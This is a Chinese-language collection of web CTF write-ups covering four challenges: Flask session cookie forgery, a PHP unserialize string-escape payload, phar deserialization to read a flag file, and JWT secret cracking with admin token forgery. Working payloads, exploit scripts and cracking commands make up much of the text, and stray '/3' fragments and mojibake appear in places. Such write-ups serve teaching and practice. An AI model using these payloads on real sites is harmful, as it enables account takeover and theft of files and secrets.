# WEB-CTF

## [HCTF 2018]admin

登录之后查看源码发现提示<!-- you are not admin -->，根据提示和题目名估计要让我们登录admin用户就可以得到flag。

在change password页面查看源码，发现提供了题目的源码地址

* 解法一：flask session伪造

想要伪造session，需要先了解一下flask中session是怎么构造的。
flask中session是存储在客户端cookie中的，也就是存储在本地。flask仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而flask并没有提供加密操作，所以其session的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。

我们可以通过脚本将session解密一下:

```
python3 flask_session_cookie_manager3.py decode -s ckj123 -c "cookie中的 session .开头的字符串"
```

```
{'_fresh': True, '_id': b'0ff8efb738a1f86fbe14a1b1eb5c055b4676e8eb841de9b13fbd3e5b3dea9b42a8ffd9e93db60dd4c150c3b99ff41e148f27073680a2e5314d657eb11a77edea', 'csrf_token': b'd43c05505a1582f74baa8b4880c464fe74aa5442', 'image': b'hs16', 'name': 'admin1', 'user_id': '10'}
```

得出结果后，将name改成 admin

```
python3 flask_session_cookie_manager3.py encode -t "{'_fresh': True, '_id': b'0ff8efb738a1f86fbe14a1b1eb5c055b4676e8eb841de9b13fbd3e5b3dea9b42a8ffd9e93db60dd4c150c3b99ff41e148f27073680a2e5314d657eb11a77edea', 'csrf_token': b'd43c05505a1582f74baa8b4880c464fe74aa5442', 'image': b'Av32', 'name': 'admin', 'user_id': '10'}" -s ckj123
```

得到伪造的 session，带入即可

---


## 0CTF 2016 Unserialize


拿到题目第是进行/3目录扫描，看看都有哪些目录，结果如下：



访问目标登录页面

> http://ip:8080/index.php



那我们就先随便注册一个，然后进去看看,注册页面

> http://ip:8080/register.php



上传页面




打开源码审计，发现`class.php` 是核心看代码/3开头，是`config.php`

```php
<?php
	$config['hostname'] = '127.0.0.1';
	$config['username'] = 'root';
	$config['password'] = '';
	$config['database'] = '';
	$flag = '';
?>
```

发现flag 就在config.php，我们/3需要读取config.php来获取flag。查看，序列化是我们一定要用到的。在profile.php中出现了。我们通过源码看到profile通过update.php经过POST传入phone，email，nickname，photo四个参数，而其中的photo参数具有取的函/3数功能，所以我们直接让它读取`config.php`可获得/3`flag`

```php
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
```

正常来说我们的序列化payload如下

```bash
O:1:"b":4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:10:"123@qq.com";s:8:"nickname";a:1:{i:0;s:3:"123";}s:5:"photo";s:10:"config.php";}
```

经过以上分析，写出如下序列化代码：

```php
<?php

class b
{
	public $phone = "12345678901";
	public $email = "123@qq.com";
	public $nickname = array("wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere");
	public $photo = "config.php";
}
$a=new b();
$profile = serialize($a);
echo $profile;

?>
```

生成payload：

```bash
O:1:"b":4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:10:"123@qq.com";s:8:"nickname";a:1:{i:0;s:170:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

bp抓包修改，然后发送：



上传

!/3[](img/1/7.png)

解密



---


## CISCN 2019 华北赛区 Day1 web1

进入解题页面发现需要登录，这里只需要注册一个账号然后登录即可。



登录以后是一个网盘的页面，最开始只有上传功能，并且`只能上传png,jpg`等图片格式。



随便上传一个符合要求的发现可/3以对其进行下载和删除。通过抓下载的包发现，该处存在一个`任意载的漏/3洞`，可以下载源码。



利用该漏洞下载`download.php`,`delete.php`以及其需要包含的`class.php`的内容。


**download.php**

```php
<?php
# download.php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}

if (!isset($_POST['filename'])) {
    die();
}

include "class.php";
ini_set("open_basedir", getcwd() . ":/etc:/tmp");

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
} else {
    echo "File not exist";
}
?>
```

**delete.php**

```php
<?php
#delete.php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}

if (!isset($_POST['filename'])) {
    die();
}

include "class.php";

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename)) {
    $file->detele();
    Header("Content-type: application/json");
    $response = array("success" => true, "error" => "");
    echo json_encode($response);
} else {
    Header("Content-type: application/json");
    $response = array("success" => false, "error" => "File not exist");
    echo json_encode($response);
}
?>
```

**class.php**

```php
<?php
#class.php
error_reporting(0);
$dbaddr = "127.0.0.1";
$dbuser = "root";
$dbpass = "root";
$dbname = "dropbox";
$db = new mysqli($dbaddr, $dbuser, $dbpass, $dbname);

class User {
    public $db;

    public function __construct() {
        global $db;
        $this->db = $db;
    }

    public function user_exist($username) {
        $stmt = $this->db->prepare("SELECT `username` FROM `users` WHERE `username` = ? LIMIT 1;");
        $stmt->bind_param("s", $username);
        $stmt->execute();
        $stmt->store_result();
        $count = $stmt->num_rows;
        if ($count === 0) {
            return false;
        }
        return true;
    }

    public function add_user($username, $password) {
        if ($this->user_exist($username)) {
            return false;
        }
        $password = sha1($password . "SiAchGHmFx");
        $stmt = $this->db->prepare("INSERT INTO `users` (`id`, `username`, `password`) VALUES (NULL, ?, ?);");
        $stmt->bind_param("ss", $username, $password);
        $stmt->execute();
        return true;
    }

    public function verify_user($username, $password) {
        if (!$this->user_exist($username)) {
            return false;
        }
        $password = sha1($password . "SiAchGHmFx");
        $stmt = $this->db->prepare("SELECT `password` FROM `users` WHERE `username` = ?;");
        $stmt->bind_param("s", $username);
        $stmt->execute();
        $stmt->bind_result($expect);
        $stmt->fetch();
        if (isset($expect) && $expect === $password) {
            return true;
        }
        return false;
    }

    public function __destruct() {
        $this->db->close();
    }
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct($path) {
        $this->files = array();
        $this->results = array();
        $this->funcs = array();
        $filenames = scandir($path);

        $key = array_search(".", $filenames);
        unset($filenames[$key]);
        $key = array_search("..", $filenames);
        unset($filenames[$key]);

        foreach ($filenames as $filename) {
            $file = new File();
            $file->open($path . $filename);
            array_push($this->files, $file);
            $this->results[$file->name()] = array();
        }
    }

    public function __call($func, $args) {
        array_push($this->funcs, $func);
        foreach ($this->files as $file) {
            $this->results[$file->name()][$func] = $file->$func();
        }
    }

    public function __destruct() {
        $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">';
        $table .= '<thead><tr>';
        foreach ($this->funcs as $func) {
            $table .= '<th scope="col" class="text-center">' . htmlentities($func) . '</th>';
        }
        $table .= '<th scope="col" class="text-center">Opt</th>';
        $table .= '</thead><tbody>';
        foreach ($this->results as $filename => $result) {
            $table .= '<tr>';
            foreach ($result as $func => $value) {
                $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
            }
            $table .= '<td class="text-center" filename="' . htmlentities($filename) . '"><a href="#" class="download">下载</a> / <a href="#" class="delete">åˆ é™¤</a></td>';
            $table .= '</tr>';
        }
        echo $table;
    }
}

class File {
    public $filename;

    public function open($filename) {
        $this->filename = $filename;
        if (file_exists($filename) && !is_dir($filename)) {
            return true;
        } else {
            return false;
        }
    }

    public function name() {
        return basename($this->filename);
    }

    public function size() {
        $size = filesize($this->filename);
        $units = array(' B', ' KB', ' MB', ' GB', ' TB');
        for ($i = 0; $size >= 1024 && $i < 4; $i++) $size /= 1024;
        return round($size, 2).$units[$i];
    }

    public function detele() {
        unlink($this->filename);
    }

    public function close() {
        return file_get_contents($this->filename); ## 获得内容
/3    }
}
?>
```

注意到File类中的`close方法执行时会获得内容`/3，如果能触发该方法，就有机会得到flag。找找其他php没有用/3到这个方法。

```php
include "class.php";
ini_set("open_basedir", getcwd() . ":/etc:/tmp");

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
} else {
    echo "File not exist";
}
```

在 `download.php`  `d/3elete.php` 发现利/3用到了。


**利用思考**


如果调用FileList类里的__call方法，让 `$this->results` 这个数组等于` close()`，再用`__destruct`魔术方法调用 `close()`。那么 将 File 类里` close（）`方法赋值给 `$this->results`数组，要让File类里的`filename = flag.txt` 再通过 `__destruct`魔术方法 调用` close 方法`。就可以获取到`flag.`


修改本地环境的` PHP.ini `，打开/3`[Phar]` 如下：



```
设置：phar.readonly = Off。
```


> PS:一开始我用的是PHP7无法生成，后来改成PHP5便可以了,记得把前面的 ；去掉

```php
<?php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new User();
$o->db = new FileList();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的//签/3名自动计算
$phar->stopBuffering();
?>
```



上传，点击/3删除，修改 payload



在删除时使用`burpsite抓包`，`修改参数`，`即可得到flag`。

```
filename=phar://phar.png/exp.txt
```



---

## CISCN 华北赛区 Day1 Web2

* 知识点：
   * 薅羊毛与逻辑漏洞
   * cookie伪造
   * python反序列化

1. 打开靶机，是这样一个页面。


1. 那么先注册登录试试。






3. 主界面提示了买 `lv6`，那么就写个脚本搜 `lv6`。


> python3

```py
import requests

url = "http://IP/"

for i in range(1, 2000):
    r = requests.get(url + "shop?page=" + str(i))

    if r.text.find("lv6.png") != -1:
        print(i)
        break
```



4. 打开 181 页，有个 `lv6`

> 恶臭 LV6 可以说是个有声音的图片了



5. 尝试购买，审计页面源码，在页面里发现有个 `discount` 折扣额度，将其改为一个`很小`的数试试。



6. 购买，跳到了这个页面



啊这....既然需求需要admin，那么我们就要来看看 如何越权成为admin吧

7. 刚刚抓包的时候发现，还有`JWT`校验





8.  解析看看，发现是 HS256 对称加密的，用 [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) 跑密钥.



```bash
git clone https://github.com/brendan-rius/c-jwt-cracker.git
cd c-jwt-cracker-master
make
./jwtcrack jwt-cookie
```

9. 跑出来密钥为` 1Kun`，那么将 payload 里的` username` 改为 `admin` 试试。



10. 替换JWT 发包，发现登录成功，绕过了防护成为管理员

